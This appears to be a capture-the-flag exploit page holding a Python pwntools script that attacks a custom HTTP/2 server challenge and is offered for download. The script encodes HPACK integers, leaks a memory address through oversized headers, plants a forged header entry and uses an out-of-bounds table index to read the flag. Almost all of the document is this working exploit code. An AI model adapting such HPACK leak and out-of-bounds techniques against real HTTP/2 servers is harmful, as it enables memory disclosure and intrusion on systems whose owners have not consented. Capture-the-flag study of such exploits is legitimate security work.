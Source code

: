 ```py
    n -= (1 << N)-1
    bts = []
    first = True
    while first or n:
        bt = n & 0x7f
        if n >= 0x7f:
            bt |= 0x80
        bts.append(bt)
        n >>= 7
        first = False
    return bytes([int(prefix+f"{(1 << N)-1:b}", 2)]+bts)


def exploit(io, elf):
    # handshake
    io.send(b"PRI * HTTP/2.0\r\n\r\nSM\r\n\r\n")
    io.recv()

    frame = Frame(io, 0x4, 0, 0, b'')
    frame.send()

    # leak
    e = Encoder()
    data = [
        ("A"*0xfff, "GET"),
        ("A"*0xfff, "GET")
    ]
    data = e.encode(data, huffman=False)

    ret = Frame(io, 0x1, 0, 0, data).send()
    io.recv(timeout=0.01) # some weird things happened in remote so I had to add this recv

    flag = u64(ret[304:][:8])
    io.success("flag @ 0x%hx" % flag)

    # fake header, size = 0x80, data = flag
    data = [
        p64(0x80)+p64(flag), b'flag'
    ]
    data = e.add(data, False)
    ret = Frame(io, 0x1, 0, 0, data).send()

    # OOB
    index = (0x23040 >> 5)+1+61
    data = flat(
        pack_int(index, "1"),
        pack_int(index, "1"),
    )
    ret = Frame(io, 0x1, 0, 0, data).send()
    flag = ret.split(b': ')[-1].decode()
    return flag
```


[download here](/exploits/http3.py)

**Written by *0xB0tm4n***
